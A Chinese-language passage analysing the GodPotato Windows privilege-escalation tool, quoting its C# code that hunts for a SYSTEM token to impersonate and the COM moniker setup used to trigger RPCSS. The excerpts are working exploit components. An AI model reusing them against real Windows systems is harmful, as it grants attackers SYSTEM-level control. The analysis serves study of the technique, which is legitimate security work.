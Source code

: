
​			

继续判断当前进程是否拥有`Impersonate`级别的权限(相当于Token中的`SeImpersonate`权限)，如果有，则调用`ListSystemHandle`函数枚举系统的所有句柄信息；再调用`ListProcessTokens`函数检查每个句柄的PID，来确定当前进程的句柄并获取其令牌，然后判断此令牌是否拥有`SYSTEM`权限；最后通过此令牌创建一个新的`WindowsIdentity`实例，后续可通过此实例来使用令牌创建高权限的进程

```c#
if (systemIdentity.ImpersonationLevel >= TokenImpersonationLevel.Impersonation)
{
    SharpToken.TokenuUils.ListProcessTokens(-1, processToken =>
    {
        if (processToken.SID == "S-1-5-18" && processToken.ImpersonationLevel >= TokenImpersonationLevel.Impersonation && processToken.IntegrityLevel >= SharpToken.IntegrityLevel.SystemIntegrity)
        {
            systemIdentity = new WindowsIdentity(processToken.TokenHandle);
            ConsoleWriter.WriteLine("[*] PID : {0} Token:0x{1:x} User: {2} ImpersonationLevel: {3}", processToken.TargetProcessId, processToken.TargetProcessToken, processToken.UserName, processToken.ImpersonationLevel);
            isFindSystemToken = true;
            processToken.Close();
            return false;
        }
        processToken.Close();
        return true;
    });
}
```



### 4.触发RPCSS

`GodPotatoUnmarshalTrigger`类的构造函数代码如下所示

`NativeMethods.CreateBindCtx`创建了一个绑定上下文, 其存储了执行COM操作(如解析名字对象)时所需的信息

`NativeMethods.CreateObjrefMoniker`创建了一个名字对象(Moniker), 用于后续引用或激活指向的COM对象

```cpp
public GodPotatoUnmarshalTrigger(GodPotatoContext godPotatoContext) {
    this.godPotatoContext = godPotatoContext;
	
	
    if (!godPotatoContext.IsStart)
    {
        throw new Exception("GodPotatoContext was not initialized");
    }


	// 获取一个对象的IUnkown接口指针
    pIUnknown = Marshal.GetIUnknownForObject(fakeObject);
    
    // 创建绑定上下文
    NativeMethods.CreateBindCtx(0, out bindCtx);
    
    // 创建名字对象
    NativeMethods.CreateObjrefMoniker(pIUnknown, out moniker);

}
```
